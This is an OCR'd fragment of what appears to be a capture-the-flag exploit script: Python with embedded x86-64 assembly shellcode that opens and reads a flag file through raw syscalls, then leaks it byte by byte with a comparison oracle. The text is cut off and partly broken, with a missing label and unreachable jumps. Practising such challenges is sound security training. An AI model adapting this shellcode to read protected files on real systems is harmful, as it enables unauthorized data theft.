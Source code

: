 ```python
    mov rax, 0x2;
    mov rdi, flag_addr;
    xor rsi, rsi;
    xor rdx, rdx;
    syscall
    mov r15, rax;

  read_flag:
    xor rax, rax
    mov rdi, r15;
    mov rsi, flag_addr;
    mov rdx, 0x40;
    syscall;

  get_flag_idx_byte:
    xor rax, rax;
    xor rdi, rdi;
    mov rsi, flag_idx_byte;
    mov rdx, 0x2;
    syscall;
    mov r13b, byte [rsi];

  get_oracle_byte:
    xor rax, rax;
    xor rdi, rdi;
    mov rsi, oracle_byte_addr;
    mov rdx, 0x1;
    syscall;

  cmp_flag_byte:
    mov r14b, byte [rbp+r13];
    mov r15b, byte [rsi];
    cmp r14, r15;
    je win;
    jne fail;

  fail:
    jmp get_oracle_byte;
    jmp cmp_flag_byte;

  win:
    int3

  _start:
    xor r13, r13;
    call open_flag;
    call read_flag;
    call get_flag_idx_byte
    call get_oracle_byte;
    call cmp_flag_byte;

    section .data
  flag_addr equ %s
  oracle_byte_addr equ %s
  flag_idx_byte equ %s
  """ % (
        flag_addr,
        oracle_byte_addr,
        flag_idx_byte,
    )

    sleep(0.2)
    io.sendline(
```